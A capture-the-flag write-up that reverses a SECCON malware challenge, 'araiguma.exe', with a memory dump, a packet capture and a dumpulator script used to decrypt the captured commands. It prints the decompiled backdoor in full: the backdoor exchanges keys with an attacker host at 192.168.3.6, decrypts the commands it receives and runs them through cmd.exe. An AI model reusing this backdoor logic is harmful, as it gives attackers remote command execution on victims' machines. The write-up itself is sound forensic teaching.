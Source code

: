 # Introduction

Challenge description:
> I found a suspicious process named "araiguma.exe" running on my computer. Before removing it, I captured my network and dumped the process memory. Could you investigate what the malware is doing?

The challenge is a _reversing_ challenge that was solved by _27 teams_. Part of the challenge are 4 files:
```
araiguma.DMP  araiguma.exe.bin  network.pcap  README.txt

> file -k araiguma.exe.bin araiguma.DMP network.pcap
araiguma.exe.bin: PE32+ executable (console) x86-64, for MS Windows\012- data
araiguma.DMP:     Mini DuMP crash report, 15 streams, Mon Oct 31 13:53:13 2022, 0x421826 type\012- data
network.pcap:     pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)\012- data
```

# Analysis

`README.md` offers an useful graphic perspective about the challenge:
```
> cat README.txt
The following diagram discribes what each file is.
Do not run araiguma.exe unless you fully understand the logic.

+-- Victim Machine --+       +-- Attacker Machine --+
| +--------------+   |       |   +-------------+    |
| | araiguma.exe |<------------->| kitsune.exe |    |
| +--------------+   |   ^   |   +-------------+    |
|        ^           |   |   |                      |
+--------|-----------+   |   +----------------------+
         |               |
  Memory |               | Packet
   Dump  |               | Capture
         |               |
  [ araiguma.DMP ] [ network.pcapng ]
```

Thanks to `IDA Pro`'s decompiler (and a few manual changes) it is easily possible to understand the high level functionalities:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  SIZE_T dwBytes; // [rsp+38h] [rbp-48h] BYREF
  struct sockaddr name; // [rsp+40h] [rbp-40h] BYREF
  struct WSAData WSAData; // [rsp+50h] [rbp-30h] BYREF
  char buf[4]; // [rsp+1F0h] [rbp+170h] BYREF
  DWORD pdwDataLen; // [rsp+1F4h] [rbp+174h] BYREF
  HCRYPTKEY hKey; // [rsp+1F8h] [rbp+178h] BYREF
  HCRYPTKEY phKey; // [rsp+200h] [rbp+180h] BYREF
  HCRYPTPROV hProv; // [rsp+208h] [rbp+188h] BYREF
  BYTE v12[4]; // [rsp+210h] [rbp+190h] BYREF
  void *p_g_G; // [rsp+218h] [rbp+198h]
  BYTE pbData[4]; // [rsp+220h] [rbp+1A0h] BYREF
  void *p_g_P; // [rsp+228h] [rbp+1A8h]
  LPCSTR pBuffer2; // [rsp+238h] [rbp+1B8h]
  BYTE *pbData_1; // [rsp+240h] [rbp+1C0h]
  SOCKET s; // [rsp+248h] [rbp+1C8h]
  BYTE *pBuffer; // [rsp+250h] [rbp+1D0h]
  HANDLE hHeap; // [rsp+258h] [rbp+1D8h]

  _main();
  *(_DWORD *)pbData = 64;
  p_g_P = &g_P;
  *(_DWORD *)v12 = 64;
  p_g_G = &g_G;
  hHeap = GetProcessHeap();
  if ( !hHeap )
    return 1;
  if ( !CryptAcquireContextA_0(
          &hProv,
          0i64,
          "Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider",
          PROV_DSS_DH,
          CRYPT_VERIFYCONTEXT) )
    return 1;
  if ( CryptGenKey(hProv, CALG_DH_EPHEM, 0x2000041u, &phKey)
    && CryptSetKeyParam(phKey, KP_P, pbData, 0)
    && CryptSetKeyParam(phKey, KP_G, v12, 0)
    && CryptSetKeyParam(phKey, KP_X, 0i64, 0) )
  {
    if ( CryptExportKey(phKey, 0i64, 6u, 0, 0i64, &pdwDataLen) )
    {
      pBuffer = (BYTE *)HeapAlloc(hHeap, 0, pdwDataLen);
      if ( pBuffer )
      {
        if ( CryptExportKey(phKey, 0i64, 6u, 0, pBuffer, &pdwDataLen) )
        {
          WSAStartup(2u, &WSAData);
          s = socket(2, 1, 0);
          name.sa_family = 2;
          *(_WORD *)name.sa_data = htons(0x1F90u);
          inet_pton(2, "192.168.3.6", &name.sa_data[2]);
          if ( !connect(s, &name, 16) )
          {
            send(s, (const char *)&pdwDataLen, 4, 0);
            send(s, (const char *)pBuffer, pdwDataLen, 0);
            recv(s, buf, 4, 0);
            pbData_1 = (BYTE *)HeapAlloc(hHeap, 0, *(unsigned int *)buf);
            if ( pbData_1 )
            {
              recv(s, (char *)pbData_1, *(int *)buf, 0);
              if ( CryptImportKey(hProv, pbData_1, *(DWORD *)buf, phKey, 0, &hKey) )
              {
                HIDWORD(dwBytes) = 0x6801;
                if ( CryptSetKeyParam(hKey, KP_ALGID, (const BYTE *)&dwBytes + 4, 0) )
                {
                  memset(pbData_1, 0, *(unsigned int *)buf);
                  while ( recv(s, (char *)&dwBytes, 4, 0) == 4 )
                  {
                    pBuffer2 = (LPCSTR)HeapAlloc(hHeap, 0, (unsigned int)dwBytes);
                    if ( !pBuffer2 )
                      break;
                    recv(s, (char *)pBuffer2, dwBytes, 0);
                    if ( !CryptDecrypt(hKey, 0i64, 1, 0, (BYTE *)pBuffer2, (DWORD *)&dwBytes) )
                    {
                      HeapFree(hHeap, 0, (LPVOID)pBuffer2);
                      break;
                    }
                    ShellExecuteA(0i64, "open", "cmd.exe", pBuffer2, 0i64, 0);
                    memset((void *)pBuffer2, 0, (unsigned int)dwBytes);
                    HeapFree(hHeap, 0, (LPVOID)pBuffer2);
                  }
                }
              }
              HeapFree(hHeap, 0, pbData_1);
            }
            closesocket(s);
          }
          WSACleanup();
        }
        HeapFree(hHeap, 0, pBuffer);
      }
    }
    CryptDestroyKey(phKey);
  }
  CryptReleaseContext(hProv, 0);
  return 0;
}
```

Having the _dump crash report_ and the _network capture_, the idea of _emulating_ the dump was quite attractive comparing
to extracting the necessary encryption/decryption keys from the dump then reimplementing the decryption.
Luckily, there's a great tool for this kind of purposes of _dump emulation_: https://github.com/mrexodia/dumpulator (Thanks to [@mrexodia](https://twitter.com/mrexodia) for his work.)

Before emulation, the correct context/state has to be reconstructed for the [CryptDecrypt](https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt) call to succeed. That means having the following (correct) arguments:
- `hKey`
- `*pbData`
- `*pdwDataLen`

The arguments can be recovered in a few ways, the technique that I used is to pin/locate the value of `RBP` at the start of `main` then use the correct
_stack offsets_ to extract the arguments. We know that the global `g_P` is saved at `rbp+1A8h`
```
.text:000000000040156F 268 48 8D 05 8A 2A 00 00                                         lea     rax, g_P
.text:0000000000401576 268 48 89 85 A8 01 00 00                                         mov     [rbp+1A8h], rax
```
and in the _dump_ that is the _stack address_:
```
00000000`0064fde8 0000000000404000 araiguma+0x4000
```
So to obtain `hKey` we can use the following calculation (in _windbg_):
```
0:000> ? 00000000`0064fde8 - 1a8 + 178
Evaluate expression: 6618552 = 00000000`0064fdb8
0:000> dq 00000000`0064fdb8 L1
00000000`0064fdb8  00000000`000f62e0
```
_Note_: 0x178 is from
```
.text:00000000004019FB 268 48 8B 85 78 01 00 00                                         mov     rax, [rbp+178h]
```
the _offset_ of `hKey` from `RBP`. Using the same approach it is possible to obtain the rest of the arguments.

# Solution

Using the correct arguments and recreating the correct state before the `CryptDecrypt` call, the solution script that I've
glued together during the CTF is:
```python
from dumpulator import Dumpulator

CryptDecrypt = 0x00007ffa9e0bf410
GetLastError = 0x00007ffa9f6e5bf0

#enc_data = bytes.fromhex("0602000002aa00000044483100020000288f76749ec20b9ab18c618418ae9a70722618dc685e667fc0c19b906a6aa3a571f473ea0eaada269f29860d55ddcba0367ee6f7a1fac83d2d7395482930b3b8")
enc_data = bytes.fromhex("8c28c20d027aa8bc9a71b107022421e907340de0f9a4c540611f2d95b560f8435fdb44ecb38876ddab1fe3ffcaf26aeb65b7f7f4d1d0bc6ceec521c77c27cd0ffba4a9d007228c478288b906b64d832be9822e123ec4a5abbc155a24b63a8c657c05ff6148124f")
dp = Dumpulator("araiguma.DMP", trace=True)
print(hex(dp.regs.rip))
# setup encrypted buffer
enc_buff = dp.allocate(0x80)
print(f"Allocated addr: {hex(enc_buff)}")
dp.write(enc_buff, enc_data)
# setup arguments and call
# pdwDataLen must be the length of the data to decrypt before the call https://learn.microsoft.com/en-us/windows/win32/api/wincrypt/nf-wincrypt-cryptdecrypt
pdwDataLen = 0x0064fbf8
dp.write(pdwDataLen, (len(enc_data)).to_bytes(8, byteorder="little"))
# dp.push should do the job too, but ...
dp.write(dp.regs.rsp + 0x28, pdwDataLen.to_bytes(8, byteorder="little"))
dp.write(dp.regs.rsp + 0x20, enc_buff.to_bytes(8, byteorder="little"))
hKey, hHash, Final, dwFlags = 0x000f62e0, 0, 1, 0
res = dp.call(CryptDecrypt, [hKey, hHash, Final, dwFlags])
print(f"> Call result: {res}")
res = dp.call(GetLastError)
print(f"> Call result: {res}")
# get decrypted data
data = dp.read(enc_buff, 0x80)
print(f"Date: {data}")
```
`enc_data` content is to extracted from the _network capture_ (for convenience filter by `ip.addr == 192.168.3.6`).

And with a bit of patience, let's put a smile on our faces and a flag in our 'pockets':
```bash
Allocated addr: 0x2e10000
emu_start(7ffa9e0bf410, 5000, 0)
emulation finished, cip = 5000
> Call result: 1
emu_start(7ffa9f6e5bf0, 5000, 0)
emulation finished, cip = 5000
> Call result: 0
Date: bytearray(b'/C echo "SECCON{M3m0ry_Dump+P4ck3t_C4ptur3=S0ph1st1c4t3d_F0r3ns1cs}" > C:\\Users\\ctf\\Desktop\\flag.txt\r\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00')
```

# Conclusion

Thanks to the author of the challenge ([ptr-yudai](https://twitter.com/ptrYudai)) and to [@mrexodia](https://twitter.com/mrexodia) for his nice tool.

happy ctfing!
